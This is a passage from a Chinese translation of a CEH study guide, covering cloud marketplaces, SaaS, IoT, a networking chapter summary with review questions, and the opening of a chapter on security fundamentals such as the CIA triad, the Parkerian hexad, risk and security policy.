有时，仅仅是一块硬件（即使是虚拟的）并安装了操作系统也并不足够。您可能需要一段软件，例如数据库服务器或协作服务器。您需要获取软件、获取许可证，并将其安装和配置。这很费时，而且支付软件费用的前期成本通常非常高。然后，确保其配置正确还需要知识和技能。这可能使中小型组织难以负担。云服务提供商对此问题有解决方案。除了仅获取一个系统外，您还可以获得一个已预先配置企业软件的系统实例，例如数据库服务器、应用服务器，甚至是安全设备。

图 2.15 显示了 Amazon Web Services 市场中可用的一小部分应用程序。选择其中一个应用程序后，根据需要，带有所需操作系统的虚拟机将启动，并且应用程序已预先安装。除了市场中可用的应用程序外，您还可以创建自己的镜像，并将其存储为 Amazon Machine Image (AMI)。如果公司拥有需要运行的内部开发的应用程序，这可能是必要的。一旦有了 AMI，就可以根据需要启动该镜像的多个实例。

### 图 2.15 AWS 市场镜像


Microsoft 也通过其 Azure 服务提供了一个市场。图 2.16 显示了可用镜像的类别列表，以及可供选择创建实例的数据库服务器列表。除了所有 Microsoft 提供的解决方案外，还有大量供应商提供自己的解决方案。在类别列表中，您可以看到例如安全。可能性包括一些通常被视为硬件设备的解决方案的虚拟镜像。防火墙、负载均衡器、拒绝服务防护以及其他安全功能均可供选择。

使用 PaaS，您可以快速创建一个完整的虚拟网络，包含支持服务或应用程序所需的所有虚拟设备。如果需要，企业网络内部的系统可以与云服务提供商的系统集成。

通常使用常规访问协议来访问虚拟设备，例如 SSH 和远程桌面协议 (RDP)。这意味着这些服务会暴露到外部世界，尽管可以创建访问规则将访问范围缩小到特定的源地址。不过，默认情况下，这些服务可能会暴露到外部世界，这意味着它们可能受到攻击。环境中的寻址可能不是静态的。这意味着每次系统上线时，它们可能会获得不同的外部地址。可能会有网络地址转换 (NAT) 存在，将发往外部 IP 地址的消息转发到解决方案内部的私有地址。




### FIGURE 2.16 Azure Marketplace 映像

### 软件即服务

桌面上的原生应用程序并不总是需要。同样，你可能不再被绑定到仅针对该系统授权的特定系统上的某个软件。相反，许多公司正在云端提供其应用程序，这意味着它们已开发出可在 Web 浏览器中运行的应用程序。如果你使用过 Google Docs 或 Office Online，就可能遇到过这些服务，这只是几个例子。大量软件可通过 Web 界面使用。在某些情况下，例如 Google 和 Microsoft 已提供存储即服务，因此你创建的任何文档都将存储在那里。不过，第三方软件也可以与这些存储解决方案对接。

例如，本章中的一些网络图是使用 draw.io 绘制的，这是一款用于绘图的 Web 应用程序。其他一些图表是使用 Visio Online 绘制的。还有类似 Smartsheet 的解决方案，可用于在线电子表格和项目规划。客户关系管理 (CRM) 也可以完全通过 Web 界面访问。这使得解决方案的交付对软件公司来说快得多、容易得多，更不用说对消费者来说也是如此。在许多情况下，你可以无需任何前期成本即可开始使用，具体取决于你要找什么以及打算使用频率。

从安全角度来看，这种解决方案和交付方式实际上有望大幅改进修复漏洞的过程。当 Web 应用程序中发现漏洞时，无需最终用户做任何工作即可解决、测试并部署修复程序。这消除了对用户系统上原生应用程序进行自动更新的需求。因为运行在最终用户系统上的应用程序并不总是会更新，所以人们不会运行充满漏洞的过时软件。

不过，这确实意味着潜在的敏感数据存储在第三方服务中。这也意味着数据通过 Internet 从 Web 浏览器传输到服务提供商。大多数网站支持 SSL/TLS，因此通信会被加密，但 SSL 存在过漏洞，导致信息泄露。这绝非要对 SSL/TLS 表示怀疑。只是值得牢记，跨网络传输的数据有可能被捕获和分析。

## 物联网

如果你家里没有几台这样的设备，那你可能也见过它们。极端的例子是冰箱、烤面包机和咖啡机等设备。除此之外，还有家庭自动化设备、数字视频录像机以及有线/卫星机顶盒。任何带有嵌入式软件并且具有网络访问功能的这些设备都被视为物联网 (IoT) 的一部分。本质上，任何可以通过网络访问、但没有内置屏幕或直接与用户交互能力的设备都是物联网的一部分。智能手机或通用计算机不属于物联网，因为它们拥有屏幕和键盘等传统输入/输出设备，即使键盘是虚拟的。许多这类设备运行的是非常小巧的嵌入式 Linux 实现。其他设备使用其他嵌入式操作系统。

提出这一点的原因之一是，结合云解决方案，云提供商通过提供通信中心来支持这些设备。Microsoft Azure 有一个 IoT 中心可用于连接这些设备。这样做有几个原因。其中之一是获取并存储设备中的任何数据。然后可以将数据库和机器学习系统等其他应用程序与所获取的数据一起用于处理和分析。Amazon 也有类似的产品。

除了从这些简单设备获取数据外，中心还可用于设备管理。命令可以从这些中心发送到设备。可以使用 HTTP 等常见协议与设备通信。也可能存在其他协议，例如消息队列遥测传输 (MQTT)。这将用于实现设备之间的消息传递。像 MQTT 这样的消息协议可能使用发布/订阅模型，让多个设备能够访问消息总线。

云提供商的这些服务产品让每一家企业（包括初创企业）都能够在无需大量前期投资的情况下，创建基础设施和应用程序来支持其想要制造的设备。所有基础设施均已以非常健壮的实现方式得到妥善处理。

## 摘要

计算机系统联网从根本上改变了我们开展业务、工作和生活的方式。这一切都发生在很短的时间内。计算机网络也为人们和企业远程受攻击提供了便捷手段。它们改变了一些犯罪组织的运作方式。它们为实施欺诈和盗窃提供了便捷途径。正因如此，而且由于即将讨论的许多章节内容都依赖于网络，因此了解计算机网络基础知识非常有帮助。

概念框架有助于理解系统和应用程序之间的通信方式。通常提到的有两个框架或模型。第一个是 OSI 模型。它有七层——物理层、数据链路层、网络层、传输层、会话层、表示层和应用层。网络上的每个系统都具有可以映射到每一层的功能。思考这些模型时要记住的一点是，一个系统上的层与它正在通信的系统上的相应层进行通信。例如，发送消息中的网络层由接收端的网络层处理。

另一个模型，也许可以将其视为一种架构，即 TCP/IP。这有时被称为 DARPA 模型，因为开发该协议套件的 ARPANet 是由 DARPA 资助的。与完全从概念上开发的 OSI 不同，TCP/IP 描述的是实际构建的设计。TCP/IP 有四层，而非 OSI 的七层，但这四层涵盖了相同的功能集。TCP/IP 包括链路层、网际层、传输层和应用层。TCP/IP 架构的链路层涵盖了 OSI 模型中的物理层和数据链路层，而应用层则涵盖了 OSI 模型中的会话层、表示层和应用层。

从概念上而非物理上查看网络布局通常更容易。有几种常用的拓扑结构。总线网络有一根主干电缆，所有设备都连接到该电缆。星型网络有一个中心接入设备（如交换机或集线器），所有设备都连接回该设备。环形网络的实际布线通常像星型网络，但其行为像环形网络，消息在环路上传输以查找系统。还有网状网络，设备之间存在直接连接。在全互连网状网络中，每个设备都与网络中其他所有设备相连。你也会经常看到混合网络。一种常见的混合网络是星型总线网络，其中中心接入设备（如交换机）都通过总线互连。

互联网运行在 TCP/IP 协议套件上，如今大多数企业也使用 TCP/IP。在查看系统通信时，你会遇到以太网等协议，它们负责将台式计算机等端点连接到网络。以太网通信通过使用 MAC 地址实现。局域网上任何想要与同一局域网上另一台设备通信的设备都会使用 MAC 地址。


在网络层或互联网层是 IP。IP 是一种尽力而为交付协议，这意味着该协议具有帮助确保消息（称为数据包，即此层的协议数据单元）可以从源到达目的地的机制。这些机制体现在一系列头部字段中，例如源 IP 地址和目的 IP 地址以及 IP 标识字段，以防数据包需要分片。

TCP 和 UDP 位于传输层。它们提供端口以实现多路复用——这意味着多个应用程序可以同时使用网络功能，方法是监听与其他应用程序不同的端口。TCP（其 PDU 称为段）使用三次握手以及序列号来保证消息按正确顺序传送。TCP 采用面向连接的模型。另一方面，UDP（其 PDU 是数据报）是一种不可靠且无连接的协议。UDP 数据报不需要被确认或回复。

不同规模的网络有不同的称呼。LAN 是局域网，指位于楼层、建筑物或校园等小型地理区域内的网络。MAN 比 LAN 大，可能覆盖整个城市，但比 WAN 小。WAN 覆盖大型地理区域，例如美国。这可能被非常大的企业用来连接其所有办公室。服务提供商的网络也称为 WAN。

云计算常被个人和企业使用。您可以使用 Google Drive、Microsoft OneDrive 或 Dropbox 等云存储。您还可以使用 IaaS 创建整个业务基础架构网络。这可从 Google、Amazon 和 Microsoft 等公司获得，它们都提供可以快速预配和启动的虚拟机。企业可以利用这些服务在其内部网络之外提供服务。它们可以作为现有基础架构的快速回退。此外，小型初创企业不必在系统上投入大量资金。他们在开发面向网络的应用程序（例如 Web 服务）时，可以按使用量付费。

企业还可以使用这些云提供商来支持和管理嵌入式设备，例如恒温器、车库门开启器、DVR 及其他类似设备。Amazon 和 Microsoft 都有 IoT 支持系统。它们可用于注册、管理并与连接到全球家庭和企业网络的各种设备进行通信。

## 复习问题

您可以在附录中找到答案。

- 1. 下列哪种设备不被视为物联网的一部分？
  - A. 智能手机
  - B. 恒温器
  - C. 灯泡
  - D. 机顶盒

- 2. 如果您想要一种用于发送实时数据的轻量级协议，您会使用以下哪种？
  - A. TCP
  - B. HTTP
  - C. ICMP
  - D. UDP

- 3. TCP/IP 架构从下到上的顺序是什么？
  - A. 网络接入、网络、传输、应用
  - B. 链路、互联网、传输、应用
  - C. 物理、网络、会话、应用
  - D. 数据链路、互联网、传输、应用

- 4. 下列哪种服务被视为存储即服务解决方案？
  - A. Microsoft Azure
  - B. iCloud
  - C. Google Compute
  - D. DropLeaf

- 5. UDP 头部包含以下哪些字段？
  - A. 源地址、目的地址、校验和、长度
  - B. 目的端口、源端口、校验和、长度
  - C. 标志、源端口、目的端口、校验和
  - D. 长度、校验和、标志、地址

- 6. 根据标志设置描述的 TCP 握手三个步骤是什么？
  - A. SYN, SYN/URG, RST
  - B. RST, SYN, ACK
  - C. SYN, SYN/ACK, ACK
  - D. SYN, SYN/ACK, ACK/URG

- 7. 以下哪种协议用于与 IoT 设备通信？
  - A. ICMP
  - B. SMTP
  - C. Telnet
  - D. HTTP

- 8. 您在大型企业网络中最可能遇到哪种网络拓扑？
  - A. 环形拓扑
  - B. 总线拓扑
  - C. 全连接
  - D. 星形 - 总线混合

- 9. 如果您看到子网掩码 255.255.252.0，您将使用哪种 CIDR 表示法（前缀）来表示相同的内容？
  - A. /23
  - B. /22
  - C. /21
  - D. /20

- 10. 下列哪个地址被视为专用地址（RFC 1918 地址）？
  - A. 172.128.10.5
  - B. 9.10.10.7
  - C. 172.20.128.240
  - D. 250.28.17.10

- 11. 如果您正在查找关于协议的权威文档，您会查阅什么？
  - A. 请求评议
  - B. 手册页
  - C. 标准
  - D. IEEE

- 12. TCP 的 PDU 称为 __________。
  - A. 分组
  - B. 数据报
  - C. 帧
  - D. 段

- 13. 哪个头部字段用于重组分片的 IP 数据包？
  - A. 源地址
  - B. IP 标识
  - C. 不分片位
  - D. 确认字段

- 14. 哪种协议对于启用 traceroute 的功能是必需的？
  - A. HTTP
  - B. SNMP
  - C. ICMP
  - D. IP

- 15. MAC 地址用于什么？
  - A. 通过 VPN 对系统进行寻址
  - B. 通过隧道对系统进行寻址
  - C. 通过 TCP 对系统进行寻址
  - D. 在本地网络上对系统进行寻址

# 第 3 章

# 安全基础

本章将涵盖以下 CEH 主题：

- 网络安全
- 防火墙
- 漏洞扫描器
- 安全策略
- 安全策略影响


组织通常会花费大量时间和资金用于防御攻击和缓解攻击。规划和实施这些防御涉及一些基本概念。在本章中，我们将介绍一些帮助安全专业人员做出关于如何最好地保护企业决策的主题内容。其中一些是基础性的，但在此基础上构建是必要的。到本章结束时，您将掌握基础知识，我们也将开始讨论强硬的防御机制。如果您正在担任道德黑客，您将遇到其中许多内容。

首先，您需要了解什么是信息安全——哪些事件属于安全范畴。这些想法通常被称为三元组或 CIA 三元组。对于持有认证信息系统安全专业人员（CISSP）认证的人来说，这是一个基本概念，该认证涵盖了信息安全领域的所有主题。三元组是理解信息安全其他许多方面的良好基础。

除了知道自己在防范什么之外，您还需要知道自己在保护什么。进行风险评估将有助于此。识别潜在风险及相关潜在损失可以帮助决定在有限资源（预算、人力、资本支出等）的支出方面进行决策。它还将帮助安全专业人员确定需要制定哪些政策，以指导员工（尤其是信息技术人员）的整体行动。从政策中派生出标准和程序。它们都被视为确定公司如何保护其信息资产的关键。

一旦制定了政策，就可以决定如何最好地保护信息资源。除了人力之外，还可以部署技术。网络中可以部署多种设备来帮助信息保护。这些设备不仅用于防止攻击者进入，还用于提供可用于识别入侵的信息，包括攻击者可能用于访问网络和系统的路径。网络中还可能部署一些元素，它们可以自动检测入侵尝试，然后阻止该尝试。

技术本身并不能提供保护。这些元素和设备的放置位置很重要，这些决定基于纵深防御和横向防御等理念。这些理念有助于定义完整的安全架构。除了安全设备之外，还有系统级机制可以非常有助于为防火墙和入侵检测系统提供的信息增加更多上下文。所有这些元素和决定共同构成了企业完整防御所必需的。


## 三要素

三要素是一组三个属性（或特性），用于定义什么是安全。这三个要素是机密性、完整性和可用性。在制定安全计划时，每个属性都需要予以考虑。它们各自在防御规划中，以不同程度的重要性都是必不可少的。并非每种防御都会以相同程度纳入这三个属性。例如，某些防御仅影响一个属性。从攻击角度来看，测试人员或对手会试图在组织内破坏这三个要素中的一个。你通常会看到这三个要素被称为 CIA 三要素。这绝不意图以任何方式与中央情报局混淆。

图 3.1 将三个要素显示为三角形，正如三要素通常被描绘的那样。之所以这样展示，一是因为等边三角形的三条边长度相等。它们具有相同的值或权重，旨在展示三要素中的任何属性都不比其他属性更重要。在关系到组织整体安全态势时，它们都具有同等价值。不同情境会突出不同要素，但在组织整体安全方面，每个要素都被视为具有同等权重，以形成平衡的方法。

**图 3.1** CIA 三要素



当你看图时，可能还会注意到，如果三角形的任何一边被移除或破坏，它就不再是三角形。信息安全也是如此。如果这些属性中的任何一个被移除或破坏，你组织的安全也就被破坏了。要确保你和你的信息得到保护，需要具备所有这些属性。

### 机密性

为此，我们或许该回到幼儿园去了解，不过你可能有更近期的记忆或经历可以借鉴。小时候总是有秘密，而且这些秘密似乎总是在操场边缘，以极其神秘、窃窃私语的语气分享。你期望，当你向朋友分享一个秘密时，这个秘密只会在你和你朋友之间保留。毕竟，如果你告诉朋友你非常、非常、非常喜欢坐在你后面那个同学，而你的朋友却告诉了那个人，那将会令人极度尴尬，尽管尴尬的程度很可能与你的年龄成反比。

当你的朋友分享了你的秘密（假设确实如此），他们就破坏了你的信任。你与他们分享的秘密不再是机密的。你将不知道是否还能继续信任你的朋友。挑战之一在于，你可能已经向两个朋友分享了你的秘密。随后，你又从另一个人那里听说了这个秘密。在没有进一步追问的情况下，你不知道是哪个朋友泄露了秘密。你所知道的只是，机密性已被破坏。

在数字世界中，机密性仍然意味着保守秘密，这一点基本没有改变。不过，它涵盖了许多不同的方面。这意味着要确保没有人未经授权就能访问信息。这可能意味着在你的用户账户上使用强密码，以确保攻击者无法进入。这可能意味着将某些信息保持离线，因此无法远程访问。不过，通常实现机密性的一个简单方法是使用加密。

在此讨论机密性时，我们应该从两个维度来思考——静态和动态。静态是指保护被视为“静止”的数据，即数据没有在移动。它可能存储在磁盘上，未被使用或操作。第二种类型，动态，是指数据正在移动，或“传输中”。这指的是数据从一个地方发送到另一个地方时的状态。这可能包括你的网络浏览器请求并从 Web 服务器检索信息。数据在传输过程中处于移动状态。正是这种传输使其变为动态，而不一定是数据正在被更改，尽管从一个地方发送到另一个地方的数据，通过与用户和应用程序的交互，可能肯定会经历更改。

当我们为基于 Web 的通信使用加密时，会使用安全套接层/传输层（SSL/TLS）安全协议。虽然 TLS 长期以来已取代 SSL，但它有时仍被称为 SSL/TLS。无论如何称呼，它都是一组用于加密数据的机制。SSL 和 TLS 都规定了如何从已知数据以及从一侧传输到另一侧的某些部分数据生成加密密钥。

由于没有密钥无法读取加密数据，因此数据的机密性得到保护。这并不是说加密能保证机密性。如果攻击者以某种方式获得了密钥，他们就可以解密数据。如果数据被不该看到的人解密，那么机密性当然已被破坏。针对加密机制（如密码、密钥交换算法等）的攻击也可能导致机密性被破坏。对加密的成功攻击（各种加密方法和标准此前已发生过成功攻击）将导致密文被解密。

### 完整性

除了要求数据机密之外，我们通常也期望数据从发送到接收的整个过程中保持一致。同样，如果我们存储数据，期望检索时数据依然完整。这被称为完整性。数据完整性很重要。它可能以不同方式被破坏。首先，数据可能损坏。数据在传输过程中可能损坏。数据在磁盘或内存中可能损坏。数据损坏的原因有很多种。多年前，我的磁盘上开始出现大量损坏的数据。我更换了磁盘，但仍然出现大量损坏的数据。最终发现，是我的内存出了问题。故障内存导致写入磁盘的数据损坏。计算机系统中出现故障组件是常有的事，这些故障组件可能导致数据丢失或损坏。

有时也会发生错误。也许你同时打开了两个文档并在同时处理。其中一个是用于实际文档的草稿文档。你错误地覆盖了实际文档的某一部分，以为自己在草稿文档中，然后，因为你不信任自动保存，你保存了正在处理的文档。这可能被视为数据完整性丢失，因为你正在处理的文档中的重要部分已被更改。如果你没有可用于替换数据的备份，你可能无法恢复原始内容，并且你甚至可能直到文档在办公室内传阅，其中包含错误的文本时才注意到这个错误。突然之间，错误信息被共享了。

中间人攻击是攻击者破坏完整性的一种方式。攻击者拦截传输中的数据，对其进行篡改，然后将其转发。当你浏览使用加密的网站时，会使用证书来提供密钥，即证书持有用于加密和解密的密钥。当证书中包含的名称与正在访问的主机名不同时，你的浏览器会生成错误，如图 3.2 所示。

**图 3.2** 关于明显无效证书的错误消息



证书上所说的（虽然错误信息中未显示）是它属于 www.furniturerow.com。然而，被访问的网站是 www.sofamart.com。如果你不知道 Furniture Row 公司拥有 Sofa Mart，你可能会开始怀疑自己是否以某种方式被劫持。在这种情况下，攻击可能导致攻击者从你的会话中收集信息，而你对此毫无预期，因为你相信会话是加密的。更糟糕的是，你获得的信息可能已被篡改，而攻击者得到了真实信息。有很多情况下，这可能是一个现实的场景。

事实证明，完整性非常复杂。有很多情况下完整性可能被违反，我们只是触及了表面。完整性不仅仅关乎数据内容。它可能也关乎信息源的完整性。想象一下，写一封信并数字化添加签名，使其看起来是由别人写的。当你开始思考完整性时，你可能会想到很多例子。

### 可用性

这可能是最容易理解的属性，也是最常被破坏的属性之一。归根结底，就是在需要时信息或服务是否可供用户使用。与其他属性一样，这可能是错误造成的，而不一定是恶意行为。如果你将信息保存在外部驱动器上，然后去某个地方——工作地点、客户现场——却忘记带驱动器，那么驱动器上的文件就不可用了。这并非恶意行为，但仍然是可用性失败，因为你在需要时无法访问所需内容。你没有丢失数据。数据仍然完好。它只是不在你需要它在的地方。这就是可用性被破坏。

配置错误可能导致可用性问题。在未测试更改的情况下更改服务配置，可能导致服务无法重新启动。在生产环境中，这可能非常麻烦，尤其是当服务是否失败不明确时。有些服务看似已重启，但实际上配置导致服务启动失败。即使更改在短时间内被回滚，服务用户也可能无法执行他们预期的功能。

最近，我读到一个关于集群的案例：七台设备中有六台顺利完成了升级，而第七台设备仍在运行旧版代码。由于旧版代码与新版代码之间的通信存在一些不兼容，所有设备都陷入了错误循环，拒绝了所有合法请求。

恶意攻击也很常见。拒绝服务（DoS）攻击拒绝对服务的访问，这意味着服务对合法流量不可用。攻击者可以用大量请求压倒服务，使服务难以响应。合法请求很难穿过噪声，即使请求通过了，服务也可能无法响应。DoS 攻击几十年来一直很常见，尽管可用带宽的变化和其他技术变化意味着攻击不得不随着技术和带宽的增加而改变。


## Parkerian 六元组

并非所有人都认为三个属性足以涵盖信息安全的广度。1998 年，Donn Parker 在最初的三个属性基础上增加了三个。这些属性不被视为标准，因为关于是否有必要将额外属性单独列出存在一些争议。Parker 认为有必要的三个额外属性如下：

### 占有（或控制）
如果你之前错误地将外部驱动器交给了朋友，以为是把他们的驱动器还给他们，那么该驱动器就处于他们的控制之下。如果朋友从未插入驱动器查看，其中的数据就不会遭受保密性泄露。然而，驱动器不再处于你的控制之下这一事实意味着它对你来说已不可用，即丢失了可用性。这就是该属性未被包含在主要三元组中的原因之一，尽管这可能是一个重要的区别。

### 真实性
这有时也被称为不可否认性。真实性的概念是，数据或文档的来源正是其所声称的身份。例如，当你对电子邮件进行数字签名时，收件人可以确定该消息来自你，因为消息包含你的数字签名，而其他人不应拥有该签名。当然，在现实中，我们所知道的只是该消息是用你的密钥签名的。如果你的密钥被盗或泄露，它可能在你不知情的情况下被使用。真实性就是确保当你获得一段数据时，无论它是什么，它实际上都来自其声称的来源。

### 实用性
假设你有我们一直在讨论的那个外部驱动器。现在是很多年后，它一直放在抽屉里很长时间了。不过，只有驱动器。没有线缆与它在一起，因为它们已经分开了。你不再有线缆了，而且，自上次使用以来，你电脑上的接口也都已更改。现在你有了数据，但无法使用。它没有实用性。就我个人而言，地下室的一个桶里放着一卷旧的 9 道磁带。我拥有它几十年了。对我而言它完全没用，因为我没有磁带机或大型机来读取它。此外，它可能以 EBCDIC 而非 ASCII 存储。所有这些都使得该磁带上的数据无用，尽管它在我手中，从技术上讲对我而言是可用的。

虽然这些属性确实提出了值得思考的具体理念，但你也可以将场景归入 CIA 三元组中的三个属性。占有性和实用性的情况可以说属于可用性，而真实性可以归入完整性。毕竟，如果一段数据的来源被说成是某样东西，而实际上却不是，那么该数据的完整性就无效了。使用 Parkerian 六元组，你得到的是某些具体情况，而不是 CIA 三元组的更广泛概念。如果在思考安全意味着什么以及哪些事件属于安全相关事件时，将它们与其他属性区分开来对你更有用，那么六元组可能比三元组对你更有用。

## 风险

简单来说，风险是损失与概率的交集。这是一个浓缩的概念，要完全理解它可能需要花费很多精力，尤其是考虑到人们对风险的常见误解。这一观点的更完整表述见 Dictionary.com 对 *风险* 的定义，其中指出风险是“遭受伤害或损失的机会”。定义中的机会即概率，是可测量的。损失或伤害也是可测量的。这意味着我们可以为风险赋予数值，它不必是一种模糊或含糊的东西。

通常，当你说话者本意是想表达机会或 *概率* 时，你却会看到 *风险* 这个词被使用。有人可能会说某个事件有发生的风险。实际意思是该事件发生有概率，并且推测，该事件是一种可能被视为负面的事件。如果你有足够的数据，概率是可以计算的。计算概率的一个非常简单的方法（通常表达为比率）是将事件数除以结果数。

举个例子，四月中的任何一天落在周末的概率是多少？四月有 30 天，这是结果数。在一个 30 天的月份中，通常有 8 个周末，所以事件数是 8。概率因此是 8/30，即 30 天中的 8 天。如果你愿意，可以将其约分为 15 天中的 4 天，但 8/30 表达的是同一含义，并且更清楚地表明信息来源。如果你想进一步细化，可以查询某个特定的四月，看看根据当月日期的排列，那一年是否有超过 8 个周末。

信息安全事件的概率更难以计算。你的企业遭受分布式（基于你使用的缩写）拒绝服务攻击的概率是多少？根据 Imperva Incapsula，使用其在线 DDoS 停机成本计算器，一家 2,500 人的电子商务公司遭受 DDoS 攻击的概率是 36%。即 100 次结果中有 36 次事件。在这种情况下，我们开始变得非常模糊。这里的事件是什么？结果又是什么？是指每 100 次对你网络的连接尝试中，有 36 次是 DDoS 消息吗？这说不通。正如我所说，计算风险概率具有挑战性，即使计算出来，理解所得结果也可能很困难。

损失或许更容易量化，但即便如此，你仍可能遇到挑战。假设你的企业已被攻破，部分知识产权被窃取。由于知识产权并未消失，也就是说你仍然控制着它，那么有形损失是什么？这取决于谁拿走了它以及拿走它的目的。如果某个国家的人拿走了它，而你的企业在那里不销售任何产品，是否存在实际损失？

当然，清理工作会产生相关费用。即便如此，这仍然可能具有挑战性。其中大部分是软成本。如果你不聘请外部承包商来进行清理，而是使用你自己已经在支付薪水的人员。外部承包商会以你的公司预期支付的账单形式产生硬成本。这将从你的净利润中支出，因此可以肯定，那里有一个可以应用于损失的数字。然而，如果是由你自己的人员来清理，你该如何计算清理成本呢？你已经在支付他们的工资，因此成本体现在其他项目的延迟行动上。

现在，我们知道可以获得损失和概率的数值。我们可以通过将损失乘以概率来从这两个数值计算风险。你最终得到的公式是：风险 = 概率 × $损失。美元符号的加入是为了明确术语，让你知道最终结果的含义。你得到的风险值以美元为单位。这个值在比较方面更有意义。如果你知道损失的货币价值和概率，就可以使用定量比较来比较不同事件的风险。这意味着你不仅比较损失，也不只比较概率。

有人可能会倾向于将风险视为损失。对某些人来说，高风险事件是指会导致灾难性结果的事件。这正是我们大脑的运作方式。我们的大脑会寻找不好的事物并试图避免它们。正因为如此，如果你在信息安全之外询问某人生活中哪些是高风险事件，他们可能会给你一个可能导致死亡的事件示例，比如开车。他们没有考虑灾难性事件发生的实际概率。他们只考虑潜在结果的极端情况。这被称为灾难化思维。当我们试图在信息安全背景下评估风险时，这种思维没有帮助。

风险被用作识别什么是重要的一种方式。任何信息安全计划的目标都是保护重要且有价值的东西。量化什么是有价值的一种方法是通过损失数值。损失越高，可能价值越高。当你计算总体风险值时，就可以确定在哪里分配资源。如果某个事件具有高风险值，那么很可能应该分配资源来防范该事件。当然，预测每一个可能的事件可能具有挑战性。这正是信息安全困难的地方——理解你组织中的事件、概率和结果，然后计划防范负面事件。

在谈到风险时，还有其他重要概念需要考虑。首先是信任。威胁是指有可能导致保密性、完整性或可用性被破坏的事物。此次泄露可能采取的途径称为漏洞。漏洞是系统中的弱点。这可能是其软件、配置，或者整个信息解决方案的构建方式。当漏洞被触发时，称为漏洞利用。我们利用漏洞，尽管并非所有漏洞都可以被利用。竞态条件是可能无法被利用的漏洞示例。代码审查显示存在一个问题，该问题的结果可能导致数据损坏，例如。然而，由于程序执行速度极快，要基本上不可能在两条指令之间插入以进行更改。当然，并非所有人都能利用所有漏洞。

竞态条件是一种程序性情况，其中一个进程或线程正在写入数据，而另一个进程或线程正在读取该数据。如果它们没有严格同步，就有可能在数据写入前读取到数据。在写入和读取之间操纵数据也有可能。从本质上讲，竞态条件是一个同步问题。

威胁代理或威胁参与者是能够实例化威胁的实体，比如个人或团体。威胁代理是实体化威胁的主体。威胁代理采取的路径


利用漏洞的行为称为威胁向量。所有这些概念都很重要，因为它们有助于更好地理解风险所在。一旦你确定了关心的资源，就应该思考哪些威胁代理可能会关注这些资源。这可以帮助你识别潜在漏洞。一旦了解了自己的漏洞和潜在威胁向量，就可以开始考虑如何防范这些威胁。

## 政策、标准和程序

作为信息安全专业人员，我们常常会认为安全本身是最重要的，但事实是，安全是业务推动者，而非业务驱动因素。这意味着在大多数情况下，安全不会直接增加净利润。缺乏安全或安全薄弱会削减净利润。由于安全是业务推动者，业务部门会设定什么是重要的参数以及保护重要事物的手段。它通过制定政策来实现这一点。政策制定完成后，标准是根据这些政策构建的。最接近实际工作层面的是程序。这些程序是基于标准制定的。

### 安全政策

安全政策是对企业资源的意图声明。它定义了公司认为的安全含义——需要保护哪些资源，资源应如何正确使用，资源可以或应该如何访问。这些政策对良好的公司治理至关重要，因为政策是管理层划定的红线。这意味着让管理层定调并确定方向不仅是一个好主意，而且也是必须的。管理层和董事会对企业利益相关者（即个体所有者或股东）负有义务。

安全政策不仅仅是定义重要资源，还涉及对员工的期望。例如，许多组织都有可接受使用政策。这涉及定义用户可以和不可以做什么。员工违反此政策通常会导致制裁或终止雇佣，具体取决于违规程度和对业务的影响。当然，并非所有政策都直接涉及用户及其行为。可能还有其他更多针对信息技术或信息安全人员的安全政策。

在考虑安全政策时，请牢记，政策的目标应是信息资源的机密性、完整性和可用性。这些是安全政策应考虑的属性。所有信息资源都应在业务定义的参数内保密、具有完整性并可用。这并不意味着所有信息资源都应始终保密、具有完整性且可用。不同的信息资产将有不同的保密级别，并非所有信息都需要始终可用。这也是安全政策的目的之一——帮助组织对信息资产进行分类和优先级排序。

并非所有信息资源都是存储在计算机系统中的比特和字节。政策应始终考虑的一个领域是如何处理人力资源。这可能并不总是写入信息安全政策中，但人力资源始终应是一个考虑因素，尤其是在防范自然灾害以及可能对人身造成危险并影响信息资产的其他事件时。

政策应定期审查。它们足够高级别，因此不应每次出现新技术集时就更改，但应随着威胁态势的变化而演变。随着信息资源和威胁代理的变化，政策可能需要调整以响应这些变化。由于这是公司治理领域，任何政策变更都必须由现有的管理结构（如业务所有者、董事会等）批准。

请牢记，安全政策都是高级别的。它们不提供具体细节，例如如何实施政策。如果你在查看安全政策并开始思考运营影响以及管理员将如何处理政策，那么你就贴近地面太近了，是时候振翅高飞，视野放得更高一些。此外，你是在概念上考虑应该是长期的事情，而不是针对特定时间点的事情。这意味着技术和解决方案不应出现在政策中。其他信息安全计划要素将负责这些方面。

### 安全标准

安全政策位于食物链顶端。可能还有从顶级安全政策向下流动的子策略。子策略应引用总体政策，以免高级别政策丢失。但在政策层级之下，则是安全标准。标准是关于政策应如何实施的指导方针。标准开始走从意图声明到实施的道路，因此我们开始从政策的高层级向下深入。

> **安全标准**
> 
> “安全标准”一词有两种含义。有一组标准为组织提供指导，并由标准机构管理。美国国家标准与技术研究院（NIST）拥有一组标准，记录在几份特别出版物中。国际标准化组织（ISO）维护 ISO 27001 和 ISO 27002。还有其他标准文档可能与您相关，具体取决于您所在的世界位置。

